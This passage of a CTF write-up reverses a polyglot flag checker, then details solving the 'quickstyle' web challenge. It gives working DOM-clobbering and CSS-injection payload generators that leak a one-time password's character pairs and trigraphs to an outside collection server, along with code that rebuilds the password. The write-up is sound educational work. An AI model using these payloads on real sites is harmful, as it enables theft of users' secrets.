I tried to work backwards. Even though I don't know what `d` was, I knew that it couldn't be more than 93097, and before being added to the character code, it would be multiplied by 31. So, I thought, maybe I could try guessing all the characters in `alpha` and see which of them have a `d` that could result in `61343`.

<!-- prettier-ignore -->
```js
MOD = 93097
ALPHA="abcdefghijklmnopqrstuvwxyz_"
check = (last,alpha=ALPHA) => {
  poss = []
for (const c of alpha) {
  for (let i = 0; i < 32; i++ ) if ((last + MOD*i - c.charCodeAt()) % 31 === 0) poss.push({ char:c, newD:(last + MOD*i - c.charCodeAt())/31})
}
  return poss
}
last = check(61343, '}')[0].newD
check(last)
```

I know that the last character of `s` is `}` because of the flag format. And the one before it?


I guess it barely narrows anything at all?

Let's look at the script with a Python lens.

```py
#!/bin/sh
1<<4201337
1//1,"""
exit=process.exit;argv=process.argv.slice(1)/*
4201337
read -p "flag? " flag
node $0 "$flag" && python3 $0 "$flag" && echo correct || echo incorrect
1<<4201337
*///""";from sys import argv
e = [...]
alpha="abcdefghijklmnopqrstuvwxyz_"
d=0;s=argv[1];1//1;"""
/*"""
#*/for (let i = 0; i < s.length; i ++) {/*
for i in range(6,len(s)-2):
    #*/d=(d*31+s.charCodeAt(i))%93097/*
    d+=e[i-6][alpha.index(s[i])][alpha.index(s[i+1])]#*/}
exit(+(d!=260,[d!=61343])[0])
4201337
```

Again, the numbers (`1<<4201337`, `1//1`, and `4201337`), tuples, and multiline strings `"""..."""` don't do anything. And `#` is Python's comment syntax. So the only lines that matter are

```py
from sys import argv
e = [...]
alpha="abcdefghijklmnopqrstuvwxyz_"
d=0;s=argv[1]
for i in range(6,len(s)-2):
    d+=e[i-6][alpha.index(s[i])][alpha.index(s[i+1])]#*/}
exit(+(d!=260,[d!=61343])[0])
```

This one does use `e`. The `range(6,len(s)-2)` makes it iterate over adjacent pairs of characters inside the curly braces of `lactf{...}`. `e` has a 2D array for every character in the flag, and it looks up numbers inside it based on the characters of the pair. These numbers must add up to `260`.

As an aside, this is a great line:

```py
exit(+(d!=260,[d!=61343])[0])
```

In JavaScript, the comma operator runs and discards the result of `d!=260`, so `(d!=260,[d!=61343])` returns the array `[d!=61343]`; `[0]` gets the boolean inside that, and `+` casts it to a number for the exit code. So JavaScript uses `d!=61343`.

In Python, the comma operator forms a tuple, so `[0]` indexes into the _tuple_ `(d!=260,[d!=61343])`, returning `d!=260`. Python uses `d!=260`.

I think it's cool that it exploits the difference in how `,` behaves in the two languages.

Anyways, I figured that since `len(e)` was 26, and the smallest value in `e` was 10, the content of the string inside the curly braces was 26 characters, and I needed to find a string whose pairs only had 10 values inside `e`. However, there seemed to be many such values in the array, so I felt like backtracking here wouldn't be helpful.

I instead tried to focus on the JavaScript backtracking problem and gave up.

At the time, the hint hadn't been released yet. When I came back to the challenge, I noticed the new hint:

> Note: The correct flag is 34 characters long.

This confirms what I suspected: the `lactf{}` part of the flag is 7 characters, leaving 27 characters in the string, or 26 adjacent pairs.

I tried working backwards:

<!-- prettier-ignore -->
```js
alpha="abcdefghijklmnopqrstuvwxyz_"
last = null
for (let i = e.length; i--;) {
  last = new Set(e[i].map((a,prev) =>a.flatMap((b,next) =>(!last || last.includes(alpha[next])) && b === 10?[prev]:[])).flat().map(i => alpha[i]))
  last = Array.from(last).join('')
  console.log(last)
}
```

This looks for every 10 in the last element of `e` and looks up the first character of the pair based on the indices. It keeps track of these potential characters for the previous element of `e`. It repeats the process, except it only considers character pairs where the second character was a potential candidate from the last round.

This was the output. Each row represents potential candidate letters from each 2D array in `e`.

```
abcefhmnpqrstuvxz_
adefgijkmnoprtuvxy_
adghijknoqtuvx_
cdegilnpswxyz_
acdegijlmnorstz
aeghijnoprswx_
abcehjkmrstuvyz_
acfijlmopqswxyz_
dhijmnprstu_
ikmnopuyz_
agjntvwy_
bdefklotxy_
abfghkmnopqtuyz_
acefghijmnopstuxyz_
efhklostuvwxz_
acdeghijlmnorsvz
aefklmpuvxy_
abcefhjoux_
cdfhnpqtw
abeijklmoswx
abcdjlnpstuvwy_
bcefghjknrtxyz_
adfgijmnoptuvxyz_
acglmnortyz
beghimnopqtwxz
cefghlqrstvx
```

This was disappointing to see, albeit not surprising, because I was hoping that it could narrow down the possibilities over time, revealing just one possible line of characters that is the flag.

I decided to try keeping track of all the possible strings formed so far, rather than the characters themselves. Currently, it looked like there could be exponentially many possible flags. But maybe there was only a handful of strings of characters that jump around the place.

<!-- prettier-ignore -->
```js
alpha="abcdefghijklmnopqrstuvwxyz_"
extend = (A, et) => {
  return A.flatMap((a) =>{
  index = alpha.indexOf(a[0])
  return et.flatMap((row, prevI) => row.flatMap((n, nextI) => (!a || nextI === index) && n === 10 ? [alpha[prevI] + (a || alpha[nextI])] : []))
  //return a.flatMap((b,next) =>b === 10?[alpha[prev]+alpha[next]]:[])
  //return wow.length > 0 ? [{ prev, poss: wow }] : []
})
}
last = extend([''], e.at(-1))
for (let i = 2; i < 8; i++) {
  last = extend(last, e.at(-i))
}
last
/*A = e.at(-1).flatMap((a,prev) =>{
  return a.flatMap((b,next) =>b === 10?[alpha[prev]+alpha[next]]:[])
  //return wow.length > 0 ? [{ prev, poss: wow }] : []
})
B = A.flatMap((a) =>{
  index = alpha.indexOf(a[0])
  return e.at(-2).flatMap((row, prevI) => row.flatMap((n, nextI) => nextI === index && n === 10 ? [alpha[prevI] + a] : []))
  //return a.flatMap((b,next) =>b === 10?[alpha[prev]+alpha[next]]:[])
  //return wow.length > 0 ? [{ prev, poss: wow }] : []
})*/
```

`extend` is a function that takes `A`, a list of possible flag strings, and `et`, the current 2D array from `e`. It starts off with the last pair, `extend([''], e.at(-1))`, then grows it about another 8 times.


It still grows exponentially, albeit pretty slowly. But it's interesting that those first few end in `_deal`!

I filtered the options by those that end in `_deal` and continued extending the possible strings.


Not that many more possibilities, but the ones ending in `_free_deal` look promising.

And so I kept going:

<!-- prettier-ignore -->
```js
alpha="abcdefghijklmnopqrstuvwxyz_"
extend = (A, et) => {
  return A.flatMap((a) =>{
  index = alpha.indexOf(a[0])
  return et.flatMap((row, prevI) => row.flatMap((n, nextI) => (!a || nextI === index) && n === 10 ? [alpha[prevI] + (a || alpha[nextI])] : []))
  //return a.flatMap((b,next) =>b === 10?[alpha[prev]+alpha[next]]:[])
  //return wow.length > 0 ? [{ prev, poss: wow }] : []
})
}
last = extend([''], e.at(-1))
for (let i = 2; i < 8; i++) {
  last = extend(last, e.at(-i))
}
last = last.filter( a => a.endsWith('_deal'))
for (let i = 8; i < 16; i++) {
  last = extend(last, e.at(-i))
}
last = last.filter( a => a.endsWith('_two_free_deal'))
for (let i = 16; i < 24; i++) {
  last = extend(last, e.at(-i))
}
last =["ve_one_get_two_free_deal"]
for (let i = 24; i <= 26; i++) {
  last = extend(last, e.at(-i))
}
/*A = e.at(-1).flatMap((a,prev) =>{
  return a.flatMap((b,next) =>b === 10?[alpha[prev]+alpha[next]]:[])
  //return wow.length > 0 ? [{ prev, poss: wow }] : []
})
B = A.flatMap((a) =>{
  index = alpha.indexOf(a[0])
  return e.at(-2).flatMap((row, prevI) => row.flatMap((n, nextI) => nextI === index && n === 10 ? [alpha[prevI] + a] : []))
  //return a.flatMap((b,next) =>b === 10?[alpha[prev]+alpha[next]]:[])
  //return wow.length > 0 ? [{ prev, poss: wow }] : []
})*/
```


Of these, `solve_one_get_two_free_deal` was the only one that looked like a flag, so I tried `lactf{solve_one_get_two_free_deal}`. It worked, though by solving this one I unfortunately did not get two more free flags.

## web/quickstyle

> **web/quickstyle**
> by r2uwu2.
> 12 solves / 495 points
>
> Script on the streets, style in the sheets, they call me the cascader.
>
> Site - [quickstyle.chall.lac.tf](https://quickstyle.chall.lac.tf/)
>
> Admin Bot - <https://admin-bot.lac.tf/quickstyle>
>
> **Downloads**:
> [quickstyle.zip](https://github.com/uclaacm/lactf-archive/tree/main/2024/web/quickstyle)

On the website, it presented me with,

> Please specify a user in the query!

I added `?user=1` to the URL, and the page changed to

> Your One-Time-Password is:

Followed by a disabled text input containing a random string of characters.

Looking at the provided [server.js][server], there's a few things to note:

[server]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/server.js

- The one-time-password (OTP) is 80 characters long using from an alphabet of 62 possible characters (digits and uppercase and lowercase letters). It's generated every time you access a user.
- The OTP isn't stored anywhere, unless the admin bot accesses the page (identified by a special token in its cookie). In that case, the OTP is saved in a `Map` between usernames and OTPs.
- On a `/flag` page, which takes both a username `user` and the OTP `otp`, if the corresponding entry in the `Map` matches the given OTP, then the server will directly give the flag.

This meant that to get the flag, you need to have the admin bot visit <https://quickstyle.chall.lac.tf/?user=1>, somehow grab the OTP it sees, then use the OTP on the `/flag` page to get the flag.

### CSS injection: how?

Based on the challenge name and description, it seemed very likely that you would have to use CSS injection. The OTP is in a text input, so I can use CSS selectors on its `value` to do certain things depending on its contents.

```css
input[value='password'] {
  background-image: url('https://example.com/');
}
```

In the above example, if the input value is `password`, then it sets its background image to `https://example.com/`, which will make the browser send a request to the page to try to get an image from it.

CSS injections usually involve one of two methods:

- Taking advantage of CSS attribute selectors like `[value^="hello"]` or `[value*="hey"]` to test if the input value starts with or contains a certain string, respectively.
- Loading font files based on the characters used in the page.

Looking at [note.js][note], the web page accepts an additional URL parameter `page`, a URL (which could be a `data:` URL) that it fetches then inserts into the document.

[note]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/note.js

<!-- prettier-ignore -->
```js
const message = await fetch(url).then(r => r.text());
if (message.length > 6000000) return;
document.querySelectorAll('.message')[0].innerHTML = message;
document.querySelectorAll('style').forEach(s => s.remove());
```

It inserts the contents of the provided URL using `innerHTML`, which means I can perform my injection here. Curiously, it rejects `message` if it's more than 6 MB, and annoyingly it also removes all `<style>` tags.

The content security policy (CSP) of the website is `font-src 'none'; object-src 'none'; base-uri 'none'; form-action 'none'; script-src 'self'; style-src 'unsafe-inline'`. This prevents us from trying to communicate with anything outside the website in many ways:

- I can't load custom fonts, so the font technique for CSS injection won't work here.
- I can't load plugins with `<object>` and `<embed>`.
- I can't use `<base>`, which changes the base URL that all relative paths on the page and relative to.
- I can't submit forms.
- I can't use `onerror` attributes and other event handlers to run JavaScript; XSS is infeasible.
- I can't use `<link>` tags to load external CSS to get around the removal of `<style>` tags.

Curiously (with help from ChatGPT to brainstorm what the CSP doesn't over), I still can load images and `<iframe>`s. However, my external `<iframe>`s can't really communicate with or access anything on the web page with the OTP, so I didn't know how to use them.

I could also use inline `style` attributes, but there's no way to use CSS selectors inside them. While you can now [nest CSS rules][nesting], this doesn't seem to have been added to inline CSS.

[nesting]: https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_nesting

So I got stuck and took a break.

While researching ways to get `<iframe>`s to work or add selectors to `style` attributes, I found a post[^12] that had something like this:

[^12]: I tried looking through my browsing history, but there's no evidence of me ever learning about this from anything online. Based on my browsing history, it just looks like I was trying things like `<span id="document">` then suddenly had a stroke of genius and tried doing `<form name=querySelectorAll>`. Then, I got confused where I got this idea from and tried to look up "form name getelementbyid injection" to find the original post.

```html
<form name="getElementById" ...>
  <!-- ... -->
</form>
```

I was trying to get rid of `document.querySelectorAll` using just HTML so it couldn't remove my `<style>` elements. I knew that IDs create global variables that reference the element (for example, `<span id="hey">` creates a global variable `hey`). However, it seems the built-in `document` object has priority over `<span id="document">`.

It seems, based on this post, that using a `name` attribute similarly creates a new entry under `document`. For example, `<form name="hey">` creates a new entry `document.hey`, and apparently `<form name="getElementById">` had more priority than the built-in `document.getElementById` method.

So just by adding some HTML, I could replace `document.querySelectorAll` with a form of the same name. This breaks the code because `document.querySelectorAll` as a form isn't a function anymore, so calling it throws a TypeError, and `<style>` elements are no longer removed. 🙌

Now, I could finally focus on CSS injection.

### Exfiltrating the OTP with CSS

However, there was another problem. Most CSS injection examples you find online will check one character at a time. You can only use CSS attribute selectors to check if a string starts with something, but not if a string exists in some specific point in the string.

For example, it's easy enough to have CSS that looks something like

<!-- prettier-ignore -->
```html
<style>
input[value^="a"] { background-image: url('https://example.com/a') }
input[value^="b"] { background-image: url('https://example.com/b') }
/* ... */
</style>
```

This would tell me what character the OTP starts with because it'll load the corresponding background image from my web server.

However, there's no way to check if the second character of the OTP is some letter. Attribute selectors don't have any pattern matching like

```css
input[value~="^.a"] { ... }
```

where it checks the second character while allowing the first character to be anything. The only things CSS can check are:

- `[attr="value"]` Whether the attribute is exactly the string.
- `[attr^="value"]` Whether the attribute starts with a string.
- `[attr$="value"]` Whether the attribute ends with a string.
- `[attr*="value"]` Whether the attribute contains the string anywhere, at least once.
- `[attr*="value" i]` Adding `i` at the end makes the comparison case insensitive.
- `[attr|="value"]` This also can compare strings, but it has a special behavior that allows `lang="en"` and `lang="en-US"` to be treated similarly. It's not particularly useful for anything but the `lang` attribute.

Most CSS injection challenges you can find on the web don't need to worry about the problem. Once they know what the secret starts with, they can create a new CSS file that checks if the secret starts with that character followed by some character.

<!-- prettier-ignore -->
```html
<style>
/* We know it starts with K */
input[value^="Ka"] { background-image: url('https://example.com/Ka') }
input[value^="Kb"] { background-image: url('https://example.com/Kb') }
/* ... */
</style>
```

But we don't get this luxury. Our secret is a one-time password that changes with every page load, and every page load will invalidate the user's previous OTP by overwriting it with the new one. If we wanted to do something like this, we'd need to have a rule for every possible string. There's 62 possible characters for each of the 80 characters in the string, so the list of possible strings will grow long quickly. Our CSS file has to be under 6 MB.

One idea I had was to use CSS nesting to try generating these combinations without actually iterating through all of them. Some thing like,

```scss
a {
  &a {
    &a {
      ... {
        [value="&"] {
          background-image: url('https://example.com/' &);
        }
      }
    }
    ...
  }
  &b {
    ...
  }
  ...
}
b {
  ...
}
...
```

Perhaps unsurprisingly, this is not how CSS nesting works.

Because of the CSP, I can't `<link>` or `@import` a CSS file from a custom web server that streams new rules over as characters get discovered one by one.

What I could do, however, is to generate a CSS file that checks if every possible sequence of three characters is in the string. Then, hopefully I can reconstruct the OTP from just these trigraphs.

<!-- prettier-ignore -->
```js
{const alpha = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
let html = '<form name=querySelectorAll><style>'
for (const a of alpha)
  for (const b of alpha)
    for (const c of alpha)
      void (html+=`[value*=${a}${b}${c}]{background:url(http://localhost:8000/${a}${b}${c})}`)
//location = '/?user=1&page=' + html.slice(0, 6e6)
 console.log(6e6/ html.length, 'kept')
await Deno.writeTextFile('heyy.html', html.slice(0, 6e6))}
```

Each trigraph requires an attribute selector that checks if the trigraph is in the OTP input's value, and if so, it sets the input's background image to an image URL that includes the trigraph. It printed `0.45773311489291907 kept`, so less than half of the trigraphs could fit under the 6 MB limit.

I played around with the length of the URL to see if a short domain was important for the image URL, but compared to the rest of the selector, the length of the URL did not significantly affect how many trigraphs could fit in 6 MB. It would always keep around half of all trigraphs.

So okay, maybe even with half the trigraphs being reported, the remaining ones might still be enough to reconstruct the string.

I started a simple web server that just prints out the URLs of requests received:

<!-- prettier-ignore -->
```ts
 Deno.serve((req) => (console.log(decodeURIComponent(req.url)), new Response("hello world")));
```

The first issue I came across was that only one trigraph was being reported at a time. This was because multiple rules matched (because the OTP contains many trigraphs) but overrode each other's `background-image`. The input can only have one `background-image` at a time, so only one background image was being requested from my server.

To solve this, I used CSS variables to avoid multiple rules overriding each other:

<!-- prettier-ignore -->
```js
{const alpha = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
let html = '<form name=querySelectorAll><style>input{--_:none;'
 let background = 'background:var(--_)'
 const vars = 'abcdefghijklmnopqrstuvwxyzá'
 for (const l of vars) {
   background += `,var(--${l})`
   html += `--${l}:none;`
 }
 html += background +'}'
      let i =0
for (const a of alpha) {
  html+=`[value^=${a}]{--_:url(http://localhost:8000/${a})}`
  for (const b of alpha)
    for (const c of alpha){
       (html+=`[value*=${a}${b}${c}]{--${vars[i%vars.length]}:url(http://localhost:8000/${a}${b}${c})}`)
i++
    }}
//location = '/?user=1&page=' + html.slice(0, 6e6)
 console.log(6e6/ html.length, 'kept')
await Deno.writeTextFile('heyy.html', html.slice(0, 6e6))}
```

Here, there's 27 variables available for now, and the possible trigraphs just rotate through them. I just hoped that if I added enough variables, there wouldn't be many collisisons.

This new version also gets the first character of the string.

Finally, trigraphs started pouring in.

### Reconstructing the triplets

With the trigraphs my server received, I tried to write a script to decode them.

<!-- prettier-ignore -->
```js
first = 'o'
subseqs = 'uaz mkZ i44 g9F kZM mmO js3 eSb vQL mOL kI8 hi4 hqm lg9 qmk c3g cK1 qD6 rKc sl9 rhd eYe grh nsl fUq fgr tZA dJB tRF l9G hdJ erK kQM skQ gJT qfU eZX beY jdZ qD6 cK1 rKc sl9 rhd eYe grh nsl fUq fgr tZA dJB tRF hdJ l9G erK kQM skQ gJT qfU eZX beY jdZ' .split(' ')
next = {}
for (const s of subseqs) {
  if (next[s.slice(0, 2)]) {
    console.warn('conflict', s.slice(0,2),next[s.slice(0, 2)])
  }
  next[s.slice(0, 2)] = s.slice(2)
  next[s.slice(0, 1)] ??= []
  next[s.slice(0, 1)].push(s.slice(1))
}
while (true) {
  if (first.length >= 2) {
    const poss = next[first.slice(-2)]
    if (poss) {
      first += poss
      continue
    }
  }
  const poss = next[first.slice(-1)]
  if (!poss || poss.length === 0) {
    console.error('i give up :(', first)
    break
  }
    if (poss.length > 1) {
      console.warn('ambiguous', first, poss)
    }
    first += poss[0]
}
```

It builds a map `next` of strings to strings. For example, `uaz` becomes`ua -> z` and `u -> az`. The latter is there just in case some trigraphs didn't make it due to the 6 MB limit, duplicates, or CSS variable collisions, but it's not great for making certain decisions.

Then, it starts with the first character and tries to build on it using `next`. However, it kept failing with `i give up :(`, meaning that it reached a point where no trigraph could continue the string.

As it turns out, the three errors---reporting less than half the trigraphs, duplicate trigraphs not being reported, and CSS variable collisions---result in this being extremely lossy and not practical.

So I had two main problems to solve:

1. How to scrape the OTP in a way that fits under 6 MB and isn't too lossy?
2. How can I reconstruct the OTP from its subsequences?

I suspected the answer to question #2 involved graph theory and may not be solveable in polynomial time. However, it was past midnight, so any amount of math hurt my head.

All $62^2$ pairs could easily fit in 6 MB. I could just reliably collect all pairs. Surely even pairs, with $62^2$ of them, would be unlikely to have duplicates in the OTP.

So at 2 am, I asked people on the UCSD CSE server[^13], U[CS]D, if they knew any existing algorithms for the problem: given a list of adjacent pairs in a string, reconstruct the string. Assume that pairs are unique.

[^13]: Again, as noted at the beginning of the article, everyone at UCSD is part of our team. I don't think this counts as cheating. At worst it's just some OSINT.

Since 2 am is still a common time to be awake, several people responded. Apparently, this is a common problem in bioinformatics (probably for reconstructing DNA sequences). There exists this concept called a De Brujin graph that was related.

They showed me an example of reconstructing the example pairs I gave, and I was convinced. This was the solution to my problem 2.


However, their code for this was part of an assignment for a class, so I couldn't just use their code. But now that I knew of this "De Brujin graph," I could just ask ChatGPT.

> write me python code that reconstructs a string given pairs in the string. assume that the pairs are unique. you may want to use debrujin graph

Here's the code it generated:

```py
import networkx as nx

def reconstruct_string_from_pairs(pairs):
    # Create a directed graph
    G = nx.DiGraph()

    # Iterate through each pair and add edges to the graph
    for pair in pairs:
        prefix = pair[:-1]
        suffix = pair[1:]
        G.add_edge(prefix, suffix)

    # Reconstruct the Eulerian path
    eulerian_path = list(nx.eulerian_path(G))

    # Reconstruct the string from the Eulerian path
    reconstructed_string = eulerian_path[0][0] + ''.join([pair[-1] for pair in eulerian_path])

    return reconstructed_string

# Example usage:
pairs = ['ATG', 'TGG', 'TGC', 'GTG', 'GGC', 'GCA']
reconstructed = reconstruct_string_from_pairs(pairs)
print("Reconstructed string:", reconstructed)
```

Shockingly, the code worked on my pairs. Success!

### Birthday paradox: duplicate pairs are more common than I thought

Except now, I was back to problem 1. It appears that duplicate pairs aren't as uncommon as I thought: I had fallen victim to the birthday paradox. While I was too lazy to work out the numbers, I just figured that I couldn't assume pairs were unique anymore.

I wanted to bring back trigraphs. Surely, this algorithm could handle a mix of pairs and trigraphs. However, I eventually realized it would be quite involved to reconstruct a string from some pairs and trigraphs.

The way the algorithm works is,

1. Creates edges between characters if pair says one character is followed by another. This helps to show how pairs can be connected to each other.
2. Find a Eulerian path---a path that uses all the edges (pairs) in the graph. This ensures that every pair is used exacty once.

Just by doing this, it can traverse all the edges and find a path that reconstructs the strings by only using each pair once.

Mixing trigraphs and pairs complicates this. Firstly, the function assumes that each node is just a character, so this loses the middle character of a trigraph. Secondly, to make edges between trigraphs and pairs, there will be extra edges that may not be necessarily used (e.g. if a trigraph is not followed by a pair). But a Eulerian path must use all edges, so it gives up if there are edges that aren't actually needed.

I decided to just stick with trigraphs, and my reconstruction code ended up looking like this:

```py
def reconstruct_string_from_pairs(pairs):
    G = nx.DiGraph()

    for pair in pairs:
        G.add_edge(pair[:-1], pair[1:], hey=pair)
    eulerian_path = list(nx.eulerian_path(G))

    reconstructed_string = eulerian_path[0][0] + ''.join([pair[1] for pair in eulerian_path])

    return reconstructed_string
```

Nodes are now two characters instead of just one, and edges are drawn between nodes if they're pairs in the same trigraph.

Turning the path back into a string is buggy. Because nodes have a character in common with their neighbors, the reconstruction ends up looking something like

```
vQQii11ssggOOiiddhhhhKKbbGGwweeLLOOQQuuvvIIvvDDVVyyggqqUUtt44BBNN88ZZ66hhSSMMccUUwwOOooYYHHhhXXTThhggIIrrSSZZffPPiibbeett00GGHH11bbRRyy339988EE33ooiiBBIIvv77N
```

But I didn't feel like fixing it because it was easy enough just to deduplicate those pairs.

What about for actually collecting those trigraphs? Since I was only using trigraphs for reconstruction, I had to make sure no trigraphs were left behind. How?

Earlier, I mentioned that CSS could do case-insensitive matching too, like `[value*="string" i]`. I could almost halve the number of trigraphs by case-insensitively matching only digits and lowercase letters, no uppercase.

<!-- prettier-ignore -->
```js
{const alpha = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
const alphaL = '0123456789abcdefghijklmnopqrstuvwxyz'
let html = '<form name=querySelectorAll><style>input{'
 let background = 'background:'/*
 for (const a of alpha)
 for (const b of alpha){
   background += `var(--t${a+b}),`
   html += `--t${a+b}:none;`
 }*/
const N = 10000
for (let i = 0; i < N; i++) {
   background += `var(--${i},none),`
//   html += `--${i}:none;`
 }
 html += background.slice(0,-1) +'}'
 const check = s => /\d/.test(s) ? `'${s}'` : s
let i = 0
  let combos = new Set()
for (const a of alpha) {
  for (const b of alpha){
  html+=`[value*=${check(a+b)}]{--${(i++)%N}:url(//lc.ussa-say.workers.dev/${a+b})}`
     for (const c of alpha){
      combos.add(`${a}${b}${c}`.toLowerCase())
    }
    }
}
combos=[...combos]
 for (let i = combos.length; i--;) {
   const index  = Math.floor(Math.random() * (i + 1))
;[combos[i ], combos[index]]=[combos[index ], combos[i]]
 }
 for (const combo of combos) {
html+=`[value*=${check(combo)} i]{--${(i++)%N}:url(//lc.ussa-say.workers.dev/${combo})}`
 }
html += '</style><iframe src="//subsection-diana-commissioners-excited.trycloudflare.com/load"></iframe>'
 console.log(6e6/ html.length, 'kept')
await Deno.writeTextFile('heyy.html', html.slice(0, 6e6))}
```

There were many iterations of this script that I skimmed over, mostly because it was just trial and error and brainstorming. This is very close to the final version of my CSS-generating code.

Originally, I was using the first two letters of each trigraph as their CSS variable so there would only be $62^2$ CSS variables. However, since pairs aren't unique, if there's a duplicate pair, then their trigraphs will have a variable collision.

However, I could rotate through $N$ CSS variables numbered $0$ through $N - 1$ and assign them to each trigraph. To find some $N$ with a low chance of having collisions, I found a [birthday paradox calculator on dCode][paradox]. I wanted no one to share the same birthday (CSS variable), and there were 78 people (trigraphs).

[paradox]: https://www.dcode.fr/birthday-problem

With 1000 CSS variables, the probablity this can happen is 3.9%. That's incredibly low, so I would actually expect a collision most of the time. With 10 000 variables, the probability jumps up to 73%, which is good enough for me. This is why there's a `const N = 10000` line in the script above.

So now I have case-sensitive pairs and case-insensitive trigraphs. The trigraphs can be reconstructed into the OTP, but the OTP is case sensitive. So I need to make trigraphs uppercase as needed based on the case-sensitive pairs I have.

### Reconstructing the trigraphs

The web server that collected the request URLs had by now grown very sophisticated. It keeps track of the paths in a list, then after a second of silence, it assumes all of the trigraphs and pairs have been requested and received.

Then, for each trigraph, it looks up the pairs[^14] that could constitute it, then uses the letter cases in the pairs to create the trigraph. However, it's possible that there are multiple pairs that only differ by case, like `ab` and `Ab`. In these cases, my server just tries every combination; there usually aren't that many (maybe up to 16 combinations).

[^14]: It's possible for a trigraph to be missing a pair, like having `abc` but not `ab`, due to CSS variable collisions.

<!-- prettier-ignore -->
```js
      const lowers = {}
      for (const b of two) {
        lowers[b.toLowerCase()] ??= []
        lowers[b.toLowerCase()].push(b)
      }
      // console.log(lowers)
      let i =0
      const w = three.map(a => {
        const options = new Set()
        for (const lower of lowers[a.slice(0, 2)]??[]) {
for (const  upper of lowers[a.slice(1)]??[]){
  if (lower[1] === upper[0]) {
    options.add(lower + upper[1])
  }
}
        }
        // const lower = lowers[a.slice(0, 2)]
        let w = [...options]
        if (w.length>1) console.log('multiple options',a,w)
        if (w.length===0) console.log('no options',a,)
        return w
      })
```

Then, for every possible set of cased trigraphs, I reconstruct it using the Python program and print the results to the console.

<!-- prettier-ignore -->
```js
    const ans = []
for (const b of permute(w)) {
  console.log(`python3 bubby.py ${b.join('-')}`)
  const command = new Deno.Command('python3', {
    args: [
      'bubby.py',
      b.join('-')
    ],
  });

  const {stdout,stderr} = await command.output()
  const out = new TextDecoder().decode(stdout)
  console.log(out)
  console.error(new TextDecoder().decode(stderr))
  const otp = out.trim()
  let s = otp[0]
  for (let i = 0; i < otp.length; i+=2) {
    s += otp[i+1]
  }
  console.log(s)
  if(otp){

    console.log('https://quickstyle.chall.lac.tf/flag?user=1&otp='+s + ' ✨')
    ans.push(s)
  }
}


console.log('results', ans)
if (three.length !== 78) {
  console.error(three.join(' '))
  console.error(`${three.length} triplets received, expected 78. :/`)
  // Deno.exit(1)
}
```

The error at the end is to warn me that there were duplicate triplets (which can happen but isn't as common as duplicate pairs), so I shouldn't trust the reconstructed OTP.

This does work! Although many times it fails because it's not equipped to handle duplicate subsequences, in fewer than ten attempts I can get one or two OTPs right, which is enough for me to do manually with the admin bot.

Except, my server wasn't receiving anything from the admin bot.

### Admin bot won't run my code

<!-- prettier-ignore -->
```js
console.log('page accessed!', req.headers.get('user-agent'))
```

My server did notice that the admin bot successfully loaded my injected CSS. But that was it. On the admin bot page, it said "Visit successful," which meant that it felt like it was done and closed the page.

Why? I had two hypotheses:

- The admin bot has a short timeout, and the CSS, with its thousands of rules, was taking too long to load and compute. I noticed on my end that there was a moment when the page would freeze while loading, and the performance graph said it was spending almost a second on "Recalculate Style."
- The admin bot container doesn't have much memory allocated to it, so the browser ran out of memory. This happened to me when I tried to create a CSS variable for every trigraph.

I did notice that when I decreased `N` (the number of CSS variables), the admin bot did start sending requests to my server. This observation was consistent with my hypotheses.

I kept trying to wrangle with the admin bot, which towards 6 am involved just repeatedly sending the admin bot to my page, solving the reCAPTCHA each time, hoping that eventually, it might linger on the page just long enough to give me the trigraphs I needed.

<!-- My friend had stayed overnight at our place working on other challenges for the CTF, and he decided that he'd leave at 6 am, which he did.


I wanted to go to sleep too, so -->

Eventually, I gave up and resorted to creating a ticket on the LA CTF Discord server. Unsurprisingly, everyone was asleep, so I assumed I'd get a reply by the time I woke up. I set my alarm for 12 pm to give myself a few hours before the end of the CTF to respond and continue solving the challenge.

The challenge author responded at 10:04, which I didn't see until I woke up at 11:04.

> @Sean it might be bc ngrok free tier requires a header to be sent with first request?
>
> My official solve uses ngrok free tier but I never had to set the request while when my friends use free tier they apparently have to
>
> I would recommend serving your html css payload with GitHub pages and use a cf worker or glitch or cf-tunneled server for your exfil server

I took their feedback and tried setting up a [Cloudflare Worker][worker], gave up (I don't have a domain), then used an anonymous [Cloudflare Tunnel][tunnel]. It didn't work. I had already used GitHub Pages, but it didn't seem to change anything.

[worker]: https://workers.cloudflare.com/
[tunnel]: https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/

I gave them the CSS file I used.

> uh your css looks good
>
> its p much what i ddi
>
> except i didn't bother initializing all the variables to none
>
> i think you could make your cloudflare url shorter
>
> at least for me it was just like sometwolettercombo.uesrname.workers.dev
>
> idk
>
> but yea ur thing looks good, i think u jsut need a tweak or 2

> ermmmm your form is unclosed, i wonder if there are some garbled html issues

Removing the variable initializations broke my code because when a CSS variable isn't defined, I think it defaults to an empty string, resulting in duplicate commas like `background: ,url(...),;`, which is not valid syntax. So I instead used `var(--name, none)`, where `none` is the default value if the variable isn't defined. I closed my `<form>` and `<style>` tags, which I hadn't done before to save characters (it worked without the closing tags).

I then also set up a custom Cloudflare [workers.dev domain][workers], `la.ussa-say.workers.dev`. I accidentally ruined my DNS cache by visiting it in my browser before it was set up, so I changed it to `lc.ussa-say.workers.dev`.

Even after all these changes, it still didn't work, and now I had a mess of tunnels and servers running on my laptop.

[workers]: https://blog-cloudflare-com.webpkgcache.com/doc/-/s/blog.cloudflare.com/announcing-workers-dev/

The admin bot wasn't timing out, however, because there's an error message for it. Their solution rendered "instantly," which meant two seconds, which was a bit slower than my solution.

Finally, they suggested,

> uhmmmmm ok maybe try just putting some iframes
>
> in the page
>
> that just like
>
> hang
>
> like just like 5 iframes to some url that takes 10s to load

I created a route on my server that would keep loading by receiving a request and pretending to be working on it[^15], whilst in reality it ignores the request.

[^15]: Like our dining halls' mobile ordering app.

<!-- prettier-ignore -->
```js
const part = req.url.split('/').at(-1)
if (part === 'load') {
  // dont respond. let it sit.
  return new Promise(()=>{})
}
```

<!-- prettier-ignore -->
```html
<iframe src="//subsection-diana-commissioners-excited.trycloudflare.com/load"></iframe>
```

Finally, after almost twelve hours, I saw results coming in.


